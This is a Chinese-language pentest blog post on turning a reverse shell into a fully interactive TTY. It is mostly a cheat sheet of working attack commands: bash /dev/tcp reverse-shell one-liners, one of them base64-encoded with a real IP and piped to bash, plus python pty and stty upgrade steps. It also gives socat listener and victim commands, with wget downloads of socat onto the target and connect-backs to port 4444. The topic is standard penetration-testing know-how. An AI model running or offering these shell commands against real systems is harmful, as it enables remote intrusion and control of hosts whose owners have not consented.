 +++
title = '为 Reverse Shell 添加 TTY'
date = 2024-04-21T18:11:44+08:00
draft = false
categories = ['小技巧']
tags = ['Pentest', 'TTY', 'Reverse Shell']
+++

## Reverse Shell Cheat Sheet

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzUyLjEzOS4xNTYuMzMvNDQ0NCAwPiYxJw== | base64 -d | bash
```

## Upgrading Simple Shells to Fully Interactive TTYs

<https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>

## 交互式 shell

### 设置环境变量

```bash
export TERM=xterm-256color
```

### python pty

`dpkg -l | grep python`
`which python`
`whereis python`
查看是否有 python 环境

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

可以实现简单的 tty，但是这种方式有个问题，当我们 Ctrl+C 的时候，所有连接都会断掉，又需要重新来一遍，而且 vim 虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

### Upgrading from netcat with magic

首先，使用Python生成一个PTY。一旦bash在PTY中运行，用 `Ctrl-Z` 将shell放到后台。

![20240405230443](https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230443.png)

当 shell 处于后台时，现在检查当前终端和 STTY 信息，以便我们可以强制连接的 shell 与其匹配

![20240405230459](https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230459.png)

所需信息是 TERM 类型（“xterm-256color”）和当前 TTY 的大小（“rows 38; columns 116”）

在仍然处于后台的情况下，现在将当前的STTY设置为原始类型，并使用以下命令告诉它回显输入字符:

```bash
stty raw -echo
```

使用原始的stty，输入/输出会看起来很奇怪，你看不到下一个命令，但当你输入时，它们会被处理。

使用 fg 将 shell 置于前台。它将重新打开反向 shell，但格式将会出错。最后，使用 reset 重新初始化终端。

![20240405230515](https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230515.png)

注意：我没有再次输入 nc 命令（因为它可能看起来像上面）。我实际输入了 fg ，但没有回显。 nc 命令是当前正在前台运行的作业。然后在netcat shell中输入了 reset 命令

在 reset 之后，shell 应该再次看起来正常。最后一步是设置 shell、终端类型和 stty 大小，以匹配我们当前的 Kali 窗口（根据上面收集的信息）。

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

最终结果是通过netcat连接实现的具有所有我们期望的功能的完全交互式TTY（包括制表补全、历史记录、作业控制等）。

### socat (only linux)

socat 是类 Unix 系统下的一个工具，可以看作是 nc 的加强版。我们可以使用 socat 来传递完整的带有 tty 的 TCP 连接。缺点也很明显，只能在 linux 下面运行

下载地址：<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat>

使用起来也很简单。

攻击机：

```bash
# 首先安装
sudo apt install socat
# 执行
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

目标机：

```bash
# 把 socat 上传到目标机器上或者直接下载
# 64 位
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
#32 位
wget https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx86.bin -O /tmp/socat

#从攻击机下载
攻击机指令：python3 -m http.server 8888

# 运行
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:4444
```

这种方式基本和 ssh 类似，ctrl+C 也不会直接断开。

### 速查表

#### 使用Python进行伪终端

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### 使用 socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 使用stty选项

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
echo $TERM
stty -a
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
